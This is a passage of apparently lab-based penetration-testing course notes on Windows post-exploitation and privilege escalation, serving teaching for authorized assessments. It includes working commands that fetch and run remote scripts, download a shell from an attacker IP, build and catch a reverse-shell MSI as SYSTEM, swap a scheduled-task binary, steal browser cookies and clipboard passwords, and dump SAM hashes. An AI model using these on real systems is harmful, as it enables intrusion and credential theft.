   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.
```

You got an error because the cookie file path that contains the database is hardcoded in SharpChromium, and the current version of Chrome uses a different location.

You can modify the code of SharpChromium or copy the cookie file to where SharpChromium is looking.

SharpChromium is looking for a file in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, but the actual file is located in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies` with the following command you will copy the file to the location SharpChromium is expecting.

```powershell
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

You can now use Invoke-SharpChromium again to get a list of cookies in JSON format.

```powershell
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```

You can now use this cookie with cookie-editor as you did with Firefox.

#### Clipboard

In many companies, network administrators use password managers to store their credentials and copy and paste passwords into login forms. As this doesn't involve typing the passwords, keystroke logging is not effective in this case. The clipboard provides access to a significant amount of information, such as the pasting of credentials and 2FA soft tokens, as well as the possibility to interact with the RDP session clipboard.

You can use the [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) script to extract user clipboard data. Start the logger by issuing the command below.

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger
```

The script will start to monitor for entries in the clipboard and present them in the PowerShell session. You need to be patient and wait until you capture sensitive information.

```powershell
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```

#### Roles and Services

Services on a particular host may serve the host itself or other hosts on the target network. It is necessary to create a profile of each targeted host, documenting the configuration of these services, their purpose, and how you can potentially use them to achieve your assessment goals. Typical server roles and services include:

- File and Print Servers
- Web and Database Servers
- Certificate Authority Servers
- Source Code Management Servers
- Backup Servers

Take Backup Servers as an example, and how, if you compromise a server or host with a backup system, you can compromise the network.

In information technology, a backup or data backup is a copy of computer data taken and stored elsewhere so that it may be used to restore the original after a data loss event. Backups can be used to recover data after a loss due to data deletion or corruption or to recover data from an earlier time. Backups provide a simple form of disaster recovery. Some backup systems can reconstitute a computer system or other complex configurations, such as an AD server or database server.

Typically backup systems need an account to connect to the target machine and perform the backup. Most companies require that backup accounts have local administrative privileges on the target machine to access all its files and services.

If you gain access to a backup system, you may be able to review backups, search for interesting hosts and restore the data you want.

You are looking for information that can help you move laterally in the network or escalate your privileges. Use [restic](https://restic.net/) as an example. Restic is a modern backup program that can back up files in Linux, BSD, Mac, and Windows.

To start working with restic, you must create a repo. Restic checks if the environment variable `RESTIC_PASSWORD` is set and uses its content as the password for the repo. If this variable is not set, it will ask for the password to initialize the repo and for any other operation in this repo.

To download the latest version of restic, visit [this page](https://github.com/restic/restic/releases/latest).

You first need to create and initialize the location where your backup will be saved, called the repository.

```powershell
PS C:\htb> mkdir E:\restic2; restic.exe -r E:\restic2 init

    Directory: E:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          8/9/2022   2:16 PM                restic2
enter password for new repository:
enter password again:
created restic repository fdb2e6dd1d at E:\restic2

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```

Then you can create your first backup.

```powershellPS C:\htb> $env:RESTIC_PASSWORD = 'Password'
PS C:\htb> restic.exe -r E:\restic2\ backup C:\SampleFolder

repository fdb2e6dd opened successfully, password is correct
created new cache in C:\Users\jeff\AppData\Local\restic
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repo: 927 B

processed 1 files, 22 B in 0:00
snapshot 9971e881 saved
```

If you want to back up a directory such as `C:\Windows`, which has some files actively used by the OS, you can use the option `--use-fs-snapshot` to create  a VSS to perform the backup.

```powershell
PS C:\htb> restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot

repository fdb2e6dd opened successfully, password is correct
no parent snapshot found, will read all files
creating VSS snapshot for [c:\]
successfully created snapshot for [c:\]
error: Open: open \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config: Access is denied.

Files:           0 new,     0 changed,     0 unmodified
Dirs:            3 new,     0 changed,     0 unmodified
Added to the repo: 914 B

processed 0 files, 0 B in 0:02
snapshot b0b6f4bb saved
Warning: at least one source file could not be read
```

You can also check which backups are saved in the repo using the `snapshot` command.

```powershell
PS C:\htb> restic.exe -r E:\restic2\ snapshots

repository fdb2e6dd opened successfully, password is correct
ID        Time                 Host             Tags        Paths
--------------------------------------------------------------------------------------
9971e881  2022-08-09 14:18:59  PILLAGING-WIN01              C:\SampleFolder
b0b6f4bb  2022-08-09 14:19:41  PILLAGING-WIN01              C:\Windows\System32\config
afba3e9c  2022-08-09 14:35:25  PILLAGING-WIN01              C:\Users\jeff\Documents
--------------------------------------------------------------------------------------
3 snapshots
```

You can restore a backup using the ID.

```powershell
PS C:\htb> restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore

repository fdb2e6dd opened successfully, password is correct
restoring <Snapshot 9971e881 of [C:\SampleFolder] at 2022-08-09 14:18:59.4715994 -0700 PDT by PILLAGING-WIN01\jeff@PILLAGING-WIN01> to C:\Restore
```

If you navigate to `C:\Restore`, you will find the directory structure where the backup was taken. To get to the SampleFolder directory, you need to navigate to `C:\Restore\C\SampleFolder`.

You need to understand your targets and what kind of information you are looking for. If you find a backup for a Linux machine, you may want to check files like `/etc/shadow` to crack users' credentials, web config files, .ssh directories to look for SSH keys, etc.

If you are targeting a Windows backup, you may want to look for the SAM & SYSTEM hive to extract local account hashes. You can also identify web application directories and common files where credentials or sensitive information is stored, such as web.config files. Your goal is to look for any interesting files that can help you achieve your goal.

### Misc Techniques

#### LOLBAS

The LOLBAS project documents binaries, scripts, and libraries that can be used for "living of the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the OS or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker. Some interesting functionality may include:

- Code execution
- Code compilation
- File transfers
- Persistence
- UAC bypass
- Credential theft
- Dumping process memory
- Keylogging
- Evasion
- DLL hijacking

One classic example is [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), whose intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

```powershell
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

You can use the `-encode` flag to encode a file using base64 on your Windows attack host and copy the contents to a new file on the remote system.

```
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

Once the new file has been created, you can use the `-decode` flag to decode the file back to its orignal contents.

```
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```

A binary such as rundll32.exe can be used to execute a DLL file. You could use this to obtain a revshell by executing a .DLL file that you either download onto the remote host or host yourself on an SMB share.

#### Always Install Elevated

This setting can be set via Local Group Policy by setting "Always install with elevated privileges" to "Enabled" under the following paths:

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`



Enumerate this setting.

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Your enumeration shows you that the AlwaysInstalledElevated key exists, so the policy is indeed enabled on the target system.

You can exploit this by generating a malicious MSI package and execute it via the command line to obtain a revshell with SYSTEM privileges.

```bash
d41y@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

You can upload this MSI file to your target, start a Netcat listener and execute the file from the command like so:

```
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

If all goes to plan, you will receive a connection back as NT AUTHORITY\SYSTEM.

```bash
d41y@htb[/htb]$ nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

This issue can be mitigated by disabling the two Local Group Policy settings mentioned above.

#### CVE-2019-1388

... was a privilege escalation vuln in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The "Issued By" field in the "General" tab is rendered as a hyperlink if the binary is signed with a certificate that has OID `1.3.6.1.4.1.311.2.1.10`. This OID value is identified in the [wintrust.h](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/) header as [SPC_SP_AGENCY_INFO_OBJID](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject) which is the SpcSpAgencyInfo field in the "Details" tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the "General" tab. This vuln can be exploited easily using an old Microsoft-signed executable (_[https://packetstormsecurity.com/files/14437/hhupd.exe.html](https://packetstormsecurity.com/files/14437/hhupd.exe.html)_) that contains a certificate with the SpcSpAgencyInfo field populated with a hyperlink.

When you click on the hyperlink, a browser window will launch running as NT AUTHORITY\SYSTEM. Once the browser is opened, it is possible to "break out" of it by leveraging the "View page source" menu option to launch a cmd.exe or PowerShell.exe console as SYSTEM.

First, right-click on the hhupd.exe executable and select "Run as administrator" from the menu.



Next, click on "Show information about the publisher's certificate" to open the certificate dialog. Here you can see that the SpcSpAgencyInfo field is populated in the Details tab.



Next, you go back to the "General" tab and see that the "Issued by" field is populated with a hyperlink. Click on it and then click "OK", and the certificate dialog will close, and a browser window will launch.



If you open Task Manager, you will see that the browser instance was launched as SYSTEM.



Next, you can right-click anywhere on the web page and choose "View page source". Once the page source opens in another tab, right-click again and select "Save as", and a "Save as" dialog box will open.



At this point, you can launch any program you would like as SYSTEM. Type `c:\windows\system32\cmd.exe` in the file path and hit enter. If all goes to plan, you will have a cmd.exe instance running as SYSTEM.



Microsoft released a [patch](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388) for this issue in November of 2019. Still, as many organizations fall behind on patching, you should always check for this vuln if you gain GUI access to a potentially vulnerable system as a low-privileged user.

This [link](https://web.archive.org/web/20210620053630/https://gist.github.com/gentilkiwi/802c221c0731c06c22bb75650e884e5a) lists all of the vulnerable Windows Server and Workstation versions.

#### Scheduled Tasks

You can use the [schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) to enumerate scheduled tasks on the system.

```
C:\htb>  schtasks /query /fo LIST /v
 
Folder: \
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft\Windows
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft\Windows\.NET Framework
HostName:                             WINLPE-SRV01
TaskName:                             \Microsoft\Windows\.NET Framework\.NET Framework NGEN v4.0.30319
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        5/27/2021 12:23:27 PM
Last Result:                          0
Author:                               N/A
Task To Run:                          COM handler
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 02:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        On demand only
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```

You can also enumerate scheduled tasks using the [Get-ScheduledTask](https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtask?view=windowsserver2019-ps) PowerShell cmdlet.

```powershell
PS C:\htb> Get-ScheduledTask | select TaskName,State
 
TaskName                                                State
--------                                                -----
.NET Framework NGEN v4.0.30319                          Ready
.NET Framework NGEN v4.0.30319 64                       Ready
.NET Framework NGEN v4.0.30319 64 Critical           Disabled
.NET Framework NGEN v4.0.30319 Critical              Disabled
AD RMS Rights Policy Template Management (Automated) Disabled
AD RMS Rights Policy Template Management (Manual)       Ready
PolicyConverter                                      Disabled
SmartScreenSpecific                                     Ready
VerifiedPublisherCertStoreCheck                      Disabled
Microsoft Compatibility Appraiser                       Ready
ProgramDataUpdater                                      Ready
StartupAppTask                                          Ready
appuriverifierdaily                                     Ready
appuriverifierinstall                                   Ready
CleanupTemporaryState                                   Ready
DsSvcCleanup                                            Ready
Pre-staged app cleanup                               Disabled

<SNIP>
```

By default, you can only see tasks created by your user and default scheduled tasks that every Windows OS has. Unfortunately, you cannot list out scheduled tasks created by other users because they are stored in `C:\Windows\System32\Tasks`, which standard users do not have read access to. It is not common for system administrators to go against security practices and perform actions such as provide read or write access to a folder usually reserved only for administrators. You may encounter a scheduled task that runs as an administrator configured with weak file/folder permissions for any number of reasons. In this case, you may be able to edit the task itself to perform an unintended action or modify a script run by the scheduled task.

Consider a scenario where you are on the fourth day of a two-week pentest engagement. You have gained access to a handful of systems so far as unprivileged users and have exhausted all options for privilege escalation. Just at this moment, you notice a writeable `C:\Scripts` directory that you overlooked in your initial enumeration.

```
C:\htb> .\accesschk64.exe /accepteula -s -d C:\Scripts\
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
C:\Scripts
  RW BUILTIN\Users
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

You notice various scripts in this directory, such as db-backup.ps1, mailbox-backup.ps1, etc., which are also all writeable by the BUILTIN\USERS group. At this point, you can append a snippet of code to one of these files with the assumption that at least one of these runs on a daily, if not more frequent, basis. You write a command to send a beacon back to your C2 infra and carry on with testing. The next morning when you log on, you notice a single beacon as NT AUTHORITY\SYSTEM on the DB01 host. You can now safely assume that one of the backup scripts ran overnight and ran your appended code in the process. This is an example of how important even the slightest bit of information you uncover during enumeration can be to the success of your engagement. Enumeration and post-exploitation during an assessment are iterative processes. Each time you perform the same task across different systems, you may be gaining more pieces of the puzzle that, when put together, will get you to your goal.

**More specific example**:

```powershell
# viewing scheduled task
PS C:\Users\steve> schtasks /query /fo LIST /v
...
Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022

# checking permissions
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)

# getting the malicious binary and replacing the executable
# specified in the action of the scheduled task
PS C:\Users\steve> iwr -Uri http://192.168.48.3/adduser.exe -Outfile BackendCacheCleanup.exe

PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak

PS C:\Users\steve> move .\BackendCacheCleanup.exe .\Pictures\

# checking for success
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```

#### User/Computer and Groups Description Field

Though more common in AD, it is possible for a sysadmin to store account details in a computer or user's account description field. You can enumerate this quickly for local users using the [Get-LocalUser](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.localaccounts/get-localuser?view=powershell-5.1) cmdlet.

```powershell
PS C:\htb> Get-LocalUser
 
Name            Enabled Description
----            ------- -----------
Administrator   True    Built-in account for administering the computer/domain
DefaultAccount  False   A user account managed by the system.
Guest           False   Built-in account for guest access to the computer/domain
helpdesk        True
htb-student     True
htb-student_adm True
jordan          True
logger          True
sarah           True
sccm_svc        True
secsvc          True    Network scanner - do not change password
sql_dev         True
```

You can also enumerate the computer description field via PowerShell using the [Get-WmiObject](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1) cmdlet with the [Win32_OperatingSystem](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-operatingsystem) class.

```powershell
PS C:\htb> Get-WmiObject -Class Win32_OperatingSystem | select Description
 
Description
-----------
The most vulnerable box ever!
```

Enumerating the description field for the local groups can be done using th e`Get-LocalGroup` cmdlet.

```powershell
PS C:\Users\dave> Get-LocalGroup
Get-LocalGroup

Name                                Description                                                                      
----                                -----------                                                                     
adminteam                  Members of this group are admins to all workstations on the second floor
BackupUsers 
helpdesk
...
Administrators                      Administrators have complete and unrestricted access to the computer/domain
...
Remote Desktop Users                Members in this group are granted the right to logon remotely
...  
```

#### Mount VHDX/VMDK

During your enumeration, you will often come across interesting files both locally and on network share drives. You may find passwords, SSH keys or other data that can be used to further your access. The tool [Snaffler](https://github.com/SnaffCon/Snaffler) can help you perform thorough enumeration that you could not otherwise perform by hand. The tool searches for many interesting file types, such as files containing the phrase "pass" in the file name, KeePass database files, SSH keys, web.config files, and many more.

Three specific file types of interest are .vhd, .vhdx, and .vmdk files. These are Virtual Hard Disk, Virtual Hard Disk v2, and Virtual Machine Disk. Assume that you land on a web server and have had no luck escalating privileges, so you resort to hunting through network shares. You come across a backups share hosting a variety of .VMDK and .VHDX files whose filenames match hostnames in the network. One of these files matches a host that you were unsuccessful in escalating privileges on, but it is key to your assessment because there is an Active Domain admin session. If you can escalate privileges to SYSTEM, you can likely steal the user's NTLM password hash or Kerberos TGT ticket and take over the domain.

If you encounter any of these three files, you have options to mount them on either your local Linux or Windows attack boxes. If you can mount a share from your Linux attack box or copy over one of these files, you can mount them and explore the various OS files and folders as if you were logged into them using the following commands.

```bash
# mount vmdk on linux
d41y@htb[/htb]$ guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk

# mount vhd/vhdx on linux
d41y@htb[/htb]$ guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

In Windows, you can right-click on the file and choose "Mount", or use the "Disk Management" utility to mount a .vhd or .vhdx file. If preferred, you can use the Mount-VHD PowerShell cmdlet. Regardless of the method, once you do this, the virtual hard disk will appear as a lettered drive that you can then browse.



For a .vmdk file, you can right-click and choose "Map Virtual Disk" from the menu. Next, you will be prompted to select a drive letter. If all goes to plan, you can browse the target OS's files and directories. If this fails, you can use VMWare Workstation "File -> Map Virtual Disks" to map the disk onto your base system. You could also add the .vmdk file onto your attack VM as an additional virtual hard drive, then access it as a lettered drive. You can even use 7-zip to extract data from a .vmdk file. This [guide](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/) illustrates many methods for gaining access to the files on a .vmdk file.

If you can locate a backup of a live machine, you can access the `C:\Windows\System32\Config` directory and pull down the SAM, SECURITY and SYSTEM registry hives. You can then use a tool such as [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) to extract the password hashes for local users.

```bash
d41y@htb[/htb]$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

You may get lucky and retrieve the local administrator password hash for the target system or find an old local administrator password hash that works on other systems in the environment.

## Dealing with End of Life Systems

### Legacy OS

#### End of Life Systems (_EOL_)

Over time, Microsoft decides to no longer offer ongoing support for specific OS versions. When they stop supporting a version of Microsoft, they stop releasing security updates for the version in question. Windows systems first go into an "extended support" period before being classified as end-of-life or no longer officially supported. Microsoft continues to create security updates for these systems offered to large organizations through custom long-term support contracts. Below is a list of popular Windows versions and their end of life dates:

##### Windows Desktop

| Version | Date |
| ------- | ---- |
| Windows Xp | April 8, 2014 |
| Windows Vista | April 11, 2017 |
| Windows 7 | January 14, 2020 |
| Windows 8 | January 12, 2016 |
| Windows 8.1 | January 10, 2023 |
| Windows 10 release 1507 | May 9, 2017 |
| Windows 10 release 1703 | October 9, 2018 |
| Windows 10 release 1809 | November 10, 2020 |
| Windows 10 release 1903 | December 8, 2020 |
| Windows 10 release 1909 | May 11, 2021 |
| Windows 10 release 2004 | December 14, 2021 |
| Windows 10 release 20H2 | May 10, 2022 |

##### Windows Server

| Version | Date |
| ------- | ---- |
| Windows Server 2003 | April 8, 2014 |
| Windows Server 2003 R2 | July 14, 2015 |
| Windows Server 2008 | January 14, 2020 |
| Windows Server 2008 R2 | January 14, 2020 |
| Windows Server 2012 | October 10, 2023 |
| Windows Server 2012 R2 | October 10, 2023 |
| Windows Server 2016 | January 12, 2027 |
| Windows Server 2019 | January 9, 2029 |

A more detailed list [here](https://michaelspice.net/windows/end-of-life-microsoft-windows-and-office/).

### Windows Server

Windows Server 2008/2008 R2 were made end-of-life on January 14, 2020. Over the years, Microsoft has added enhanced security features to subsequent versions of Windows Server. It is not very common to encounter Server 2008 during an external pentest.

#### Server 2008 vs. Newer Versions

| Feature | Server 2008 R2 | Server R2 2012 | Server 2016 | Server 2019 |
| ------- | -------------- | -------------- | ----------- | ----------- |
| Enhanced Windows Defender Advanced Threat Protection | | | | x |
| Just Enough Administration | Partial | Partial | x | x |
| Credential Guard | | | x | x |
| Remote Credential Guard | | | x | x |
| Device Guard (_code integrity_) | | | x | x |
| AppLocker | Partial | x | x | x |
| Windows Defender | Partial | Partial | x | x |
| Control Flow Guard | | | x | x |

#### Server 2008 Case Study

For an older OS like Windows Server 2008, you can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. You can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target. If an exploit exists in the Metasploit framework for the given missing patch, the tool will suggest it. Other enumeration scripts can assist you with this, or you can even enumerate the patch level manually and perform your own research. This may be necessary if there are limitations in loading tools on the target host or saving command output.

First use WMI to check for missing KBs.

```
C:\htb> wmic qfe

Caption                                     CSName      Description  FixComments  HotFixID   InstallDate  InstalledBy               InstalledOn  Name  ServicePackInEffect  Status
http://support.microsoft.com/?kbid=2533552  WINLPE-2K8  Update                    KB2533552               WINLPE-2K8\Administrator  3/31/2021
```

A quick Google search of the last installed hotfix shows you that this system is very far out of date.

Run Sherlock to gather more information.

```powershell
PS C:\htb> Set-ExecutionPolicy bypass -Scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y


PS C:\htb> Import-Module .\Sherlock.ps1
PS C:\htb> Find-AllVulns

Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/thttps://us-cert.cisa.gov/ncas/alerts/aa20-133aree/master/MS16-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html
VulnStatus : Not Vulnerable
```

From the output, you can see several missing patches. From here, get a Metasploit shell back on the system and attempt to escalate privileges using one of the identified CVEs. First, you need to obtain a Meterpreter revshell. You can do this several ways, but one easy way is using the `smb_delivery` module.

```bash
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery

Matching Modules
================
   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/windows/smb/smb_delivery  2016-07-26       excellent  No     SMB Delivery
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/smb_delivery


msf6 exploit(windows/smb/smb_delivery) > use 0

[*] Using configured payload windows/meterpreter/reverse_tcp


msf6 exploit(windows/smb/smb_delivery) > show options 

Module options (exploit/windows/smb/smb_delivery):
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_NAME    test.dll         no        DLL file name
   FOLDER_NAME                   no        Folder name to share (Default none)
   SHARE                         no        Share (Default Random)
   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
